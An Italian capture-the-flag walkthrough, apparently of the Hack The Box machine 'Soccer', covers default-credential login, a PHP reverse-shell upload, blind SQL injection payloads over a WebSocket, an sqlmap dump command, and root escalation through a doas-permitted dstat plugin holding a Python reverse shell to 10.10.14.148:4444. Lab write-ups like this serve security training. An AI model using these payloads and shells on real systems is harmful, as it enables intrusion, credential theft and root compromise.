










### 1. Scan delle porte



- __Porta 22__ (SSH): OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
- __Porta 80__ (HTTP): Web Server Nginx 1.18.0
- __Porta 9091__: Servizio HTTP sconosciuto

### 2. Enumerazione delle directory sul Web Server (Porta 80)



La ricerca ha identificato la directory _/tiny_ all'interno del Web Server, visitandola tramite browser notiamo che si tratta del servizio di file storage __Tiny File Manager__



ricercando un po' di informazioni su github riguardo questo servizio, ho scoperto che le credenziali impostate di default sono:
- __username__: admin
- __password__: admin@123

A questo punto possiamo loggare.

### 3. Upload della reverse shell

La directory condivisa tramite Tiny File Manager è proprio quella corrispondente all'applicazione web esposta sulla porta 80.
L'unica directory scrivibile è _uploads_ ed è proprio lì dentro che caricheremo la nostra [reverse shell PHP](https://pentestmonkey.net/tools/web-shells/php-reverse-shell).

Quindi mettiamoci in ascolto sulla porta 4444 della nostra macchina:



Adesso carichiamo la reverse shell:



Ed eseguiamola tramite http://soccer.htb/tiny/uploads/phprevshell.php



### 4. Ricerca di un sottodominio

Andando un po' in giro nel file system della macchina ho trovato i file di configurazione di Nginx in _/etc/nginx/sites-enabled_, ed in particolare ho scoperto un nuovo blocco server molto interessante che corrisponde al sottodominio __soc-player__:



quindi aggiungiamo il dominio _soc-player.soccer.htb_ in /etc/hosts della nostra macchina in modo tale da poter esplorare questa nuova applicazione tramite http://soc-player.soccer.htb.

### 5. Esplorazione sottodominio

Dopo aver registrato un nuovo account ed essere loggato, ci si presenta un form di input che ci chiede di inserire un Ticket ID.
E' interessante guardare il sorgente della pagina perchè è presente del codice javascript che tramite un web socket comunica con il servizio sconosciuto presente sulla porta 9091.



Analizzando il codice notiamo che viene fatta una richiesta al WebSocket e viene inviato il Ticket ID che noi inseriamo tramite input in formato JSON. A questo punto la risposta del Web Socket viene visualizzata nell'applicazione.
In particolare se il TicketID inserito esiste viene visualizzato _Ticket Exists_, altrimenti _Ticket doesn't Exists_

Probabilmente è presente una vulnerabilità a SQL Injection.
Questo Payload ritorna _Ticket Exists_:

Allora possiamo sfruttare la risposta come un "oracolo" che ci fa ricostruire pian piano la struttura del database.

### Exploit della SqlInjection 

Ho utilizzato lo script python di questa [guida](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) per poter testare ed exploitare la SQLI.

- Per estrarre il nome delle tabelle del database ho scritto una funzione python che le ricostruisce tramite questo payload:

```
1 OR (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) LIKE 'a%'-- a
```

Nel database è presente una singola tabella __accounts__

- Per estrarre le colonne della tabella ho scritto una funzione python che sfrutta questo payload.

```
1 OR (SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='accounts' LIMIT 0,1) LIKE 'a%' -- a
```

Le colonne sono: __email__, __username__,__password__

- Infine per ottenere username e password degli utenti registrati:

```
1 OR (SELECT username FROM accounts LIMIT 0,1) LIKE BINARY 'a%'-- a
```

```
1 OR (SELECT password FROM accounts LIMIT 0,1) LIKE BINARY 'a%'-- a
```

Questo lavoro può essere reso più semplice tramite sqlmap

```bash
sqlmap -u http://localhost:8081/?id=1 --dump-all --exclude-sysdbs
```

Alla fine otteniamo:

- __email__: player@player.htb
- __username__: player
- __password__: PlayerOftheMatch2022

che corrispondono anche alle credenziali di un account SSH.

### Privilege Escalation

```bash
find / -perm -u=s -type f 2> /dev/null
```

tra gli eseguibili con SUID attivo troviamo _/usr/local/bin/doas_



__doas__ è un binario tipo sudo che semplifica la gestione dei permessi ecc...
In particolare esiste un file di configurazione che consente di definire i permessi di sudo di ogni utente con una sintassi relativamente semplice.
Su questa macchina il file si trova in __/usr/local/etc/doas.conf__ e l'ho trovato tramite questo comando find

```bash
find / -name '*doas*' 2> /dev/null
```

Il contenuto di doas.conf è:
```permit nopass player as root cmd /usr/bin/dstat```

questo significa che possiamo eseguire _/usr/bin/dstat_ con i privilegi di root, ma come sfruttare questo?
Ci viene in aiuto il manuale di dstat.

Praticamente possiamo creare dei plugin scritti in python che possono essere eseguiti da dstat, e dobbiamo mettere questi plugin nella directory _/usr/local/share/dstat_ con il nome dstat_{nome plugin}.py, 
io lo chiamerò __dstat_exp.py__

il contenuto dell'exploit sarà questo:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.148',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);
```

a questo punto ci mettiamo in ascolto sulla porta 4444 ed eseguiamo il plugin con i privilegi di root:

```bash
doas /usr/bin/dstat --exp
```

E siamo ROOT


